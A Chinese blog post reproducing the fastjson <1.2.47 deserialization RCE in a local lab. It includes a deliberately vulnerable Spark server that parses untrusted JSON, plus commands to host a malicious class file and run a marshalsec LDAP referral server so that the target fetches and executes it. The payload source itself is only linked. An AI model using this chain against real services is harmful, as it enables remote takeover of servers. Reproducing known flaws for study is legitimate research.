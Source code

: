 ```yaml
---
title: fastjson<1.2.47 RCE 漏洞复现
date: 2019-07-15 16:16:12
tags:
- Hacker
categories:
- Hacker
---
```



这两天爆出了 fastjson 的老洞，复现简单记录一下。

<!--more-->

首先使用 spark 搭建一个简易的利用 fastjson 解析 json 的 http server。

```java
package cn.hacktech.fastjsonserver;

import com.alibaba.fastjson.JSON;
import static spark.Spark.*;

public class Main {
    public static void main(String[] args) {
        get("/hello", (req, res) -> "spark server start success");
        post("/test", (req, res) -> {
            String payload = req.body();
            JSON.parse(payload);
            return "json payload：" + payload;
        });
    }
}
```

编译出来后，启动这个 jar，在 `/test` 这个 post 点即可 post json payload。

然后这里分两类：

1. 如果只是想检测漏洞是否存在，可以使用 dnslog 去检测
2. 利用的话，需要自己起一个恶意的 ldap 或者 rmi 服务

目前测试出来的是 rmi 有版本限制（据说是可能是 8u113 ），打不出来；ldap 是可以的。

本机需要起一个 LDAP 服务和 http 服务

```
poc-->LDAP-->http
```

poc 会通过上面的路径去请求你的 http 服务上面的对应的 class 文件然后去解析执行这个 class

启动 LDAP 用的 marshalsec，会比较方便。

1. 在本目录下启动 http server 在 80 端口


```
python -m http.server 80
```

2. 启动 LDAP 服务

```
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://127.0.0.1/#Exploit
```

后面的 Exploit 是指 Exploit.class 文件

3. 运行 PoC，它会请求 LDAP 服务，或者直接把 json payload post 到 `/test`

```
java -cp fastjson-1.2.47.jar; PoC
```

其中代码编译的话，直接执行 `javac the.java` 即可，不过 PoC.java 的编译需要引入 fastjson jar 包，运行 `javac -cp ./fastjson-1.2.47.jar PoC.java`

具体的细节可见[代码打包文件](https://www.lanzous.com/i4zzqej)